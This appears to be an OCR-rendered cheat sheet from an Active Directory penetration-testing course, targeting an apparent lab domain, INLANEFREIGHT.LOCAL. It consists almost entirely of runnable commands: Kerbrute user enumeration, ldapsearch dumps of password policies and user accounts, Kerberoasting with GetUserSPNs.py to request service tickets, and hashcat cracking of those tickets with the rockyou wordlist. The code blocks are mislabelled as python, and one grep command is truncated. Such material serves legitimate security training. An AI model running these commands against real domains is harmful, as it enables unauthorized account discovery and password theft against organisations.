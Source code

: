 #### Enumerating Users with Kerbrute

Initial Enumeration of the Domain

```python
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```

#### Using ldapsearch

Enumerating & Retrieving Password Policies

```python
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep
```

#### Using ldapsearch

Password Spraying - Making a Target User List

```python
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

#### Listing SPN Accounts with GetUserSPNs.py

Kerberoasting - from Linux

```python
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

#### Requesting all TGS Tickets

Kerberoasting - from Linux

```python
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```

#### Requesting a Single TGS ticket

Kerberoasting - from Linux

```python
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sq
```

#### Cracking the Ticket Offline with Hashcat

Kerberoasting - from Linux

```python
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```


